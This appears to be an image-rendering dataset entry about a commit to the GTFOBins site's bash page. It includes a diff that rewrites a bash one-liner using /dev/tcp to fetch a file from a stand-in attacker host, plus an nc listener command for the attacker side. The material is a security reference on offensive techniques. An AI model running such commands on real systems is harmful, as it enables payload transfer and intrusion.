

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide. Shown: the whole page at 82% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1871 px from its top, so only the background shows below that.

Commit message:
Fix bash download script

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -25,7 +25,9 @@ functions:
         export RHOST=attacker.com
         export RPORT=12345
         export LFILE=file_to_get
-        bash -c '(echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d \"\r\")" != "" ]; do read i; done; cat) > $LFILE'
+        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
+            3<>/dev/tcp/$RHOST/$RPORT \
+            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
     - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
       code: |-
         export RHOST=attacker.com
```
